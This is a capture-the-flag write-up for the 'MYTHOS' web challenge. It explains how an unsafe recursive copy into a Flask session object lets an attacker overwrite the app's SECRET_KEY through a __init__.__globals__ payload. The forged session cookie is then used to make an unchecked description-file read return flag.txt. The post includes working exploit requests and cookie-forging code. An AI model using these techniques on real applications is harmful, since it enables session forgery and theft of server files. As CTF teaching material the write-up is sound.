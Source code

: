 +++ title = "MYTHOS" date = 2025-08-15 authors = ["Vibhu Mehrotra"] +++

## Summary
On the surface, this game appears to be similar to the terminal games played in the 1980s, where you get 1-4 options and based on your choice the story proceeds, everything is hardcoded. This simple version has only around 20 possibilities to go through and only 1 good ending which you can get only if you collect all the 'items' however, that is not sufficient to print the flag, the game on winning returns the descriptions of the items you hold.... So we need to somehow change the filepath of the description to the path of the flag to get the flag printed.

This is a very clever probem, requiring the exploitation of two seperate vulnerabilities 
- Overwriting the flask session key with a compromised key known to attacker. This can be done due to a poorly written copy function which doesn't sanitation the input
- Blindly reading a 'description file' without checking if it is in the authorised directory. 

simply put, our access to session key allows us to overwrite the path of a certain description file name, which is in a certain scenario printed out.

## Solution:

- Step 1: replace the app session key with our own compromised key
here is the python code where the key is defined, a random 40 bit key clearly infeasible to bruteforce
```python
app = Flask(__name__, static_url_path="", static_folder="static")
app.config["SECRET_KEY"] = rand_name(40)
```
The request we can use to overwrite the key is this one:

```python
@app.route("/score", methods=["POST"])
@game_session
def submit():
    score = ScoreSubmission(session["game"]["player"])
    copy(request.json, score)

    acquired_items = json.loads(session["items"].decode())
    score.items = acquired_items
    return score.toJSON()
```
the important lines are:
```python
score = ScoreSubmission(session["game"]["player"])
copy(request.json, score)

```
score is a an object storing the properties of the current session
and now we use copy to blindly copy request.json (our input) directly into score, i.e directly replacing the information in the session
so we use the following post request:
```python
s.post(URL + 'score', json={"__init__":{"__globals__":{"app":{"config":{"SECRET_KEY":NEW_SECRET}}}}})

```
withing copy, this occurs:
```python
setattr(dst, k, v) 
```
which basically blindly replaces wherever the key k is found with our user value v.

**We now have full control over the session cookies etc, and we can make requests 'as' the server itself**

- Now we need to do two things, get 'All' items in the game and then go through the game and reach the good ending (we can only reach good ending if the game sees that we have all the items)

we can do this by 
```python

s = requests.session()
r = s.get(URL)
data = FSCM.decode(s.cookies['session'],NEW_SECRET)
data['items'] = json.dumps({"mimic_gem": 1,"mermaid_scale":1,"angels_scarf":1,"mew_plaque":1,"Mythos":{"deserialize":"item_delegate"},"desc_filename":"flag.txt","name":"test"}).encode()

new_session = FSCM.encode(NEW_SECRET, str(data))
COOKIES = {'session': new_session}
```
What we are doing here is simple, we create a new HTTP session using the polluted key, and as part of the session creation we include the session data of items to be all the items in the game (required to reach win screen). 

item_delegate is:
```pm
my $game_artifacts = {
    item_delegate    => sub {
                            my $obj = shift; 
                            if (defined $obj->{desc_filename}) {
                                $obj->{desc} = read_file($obj->{desc_filename});
                                return {
                                    name=>$obj->{name},
                                    desc=>$obj->{desc}
                                    };
                                } return $obj;
                            },
    ....
};
```
So we basically pass in the name 'test' and file of description as flag.txt... so it simply reads the flag and returns it to us once we reach the 'good ending'.
Reaching the good ending is trivial since using the events.json provided to us we can map out the correct path.
>Credit for code and solution @Anony from the GCTF discord.



